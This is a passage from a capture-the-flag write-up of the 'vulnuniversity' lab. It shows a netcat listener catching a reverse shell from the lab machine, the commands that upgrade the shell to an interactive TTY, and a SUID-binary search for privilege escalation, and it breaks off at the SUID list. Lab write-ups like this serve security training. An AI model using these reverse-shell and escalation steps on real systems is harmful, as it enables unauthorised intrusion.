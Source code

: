# **Foothold**

Let's set a listener on our machine: `nc -nlvp 1234`, after that, we need to click on the payload to receive a reverse shell.

```terminal
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.11.31.131] from (UNKNOWN) [10.10.131.61] 56840
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 04:53:37 up 24 min,  0 users,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ export TERM=xterm
export TERM=xterm
www-data@vulnuniversity:/$ ^Z
zsh: suspended  nc -lnvp 1234

┌──(root㉿kali)-[/tmp/arsenal]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 1234

www-data@vulnuniversity:/$ whoami
www-data
www-data@vulnuniversity:/$
```
The commands i executed are for getting a fully functional shell, so that we can use the arrow keys, TAB key and more, you don't have to use them if you don't want to.


# **Privilege Escalation**
Time to upgrade to root, i will be running `sudo -l`, `id` commands and search for some SUID binaries using this command: `find / -type f -perm -04000 2>/dev/null`

```terminal
www-data@vulnuniversity:/home/bill$ sudo -l      
[sudo] password for www-data:
www-data@vulnuniversity:/home/bill$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@vulnuniversity:/home/bill$ find / -type f -perm -04000 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
```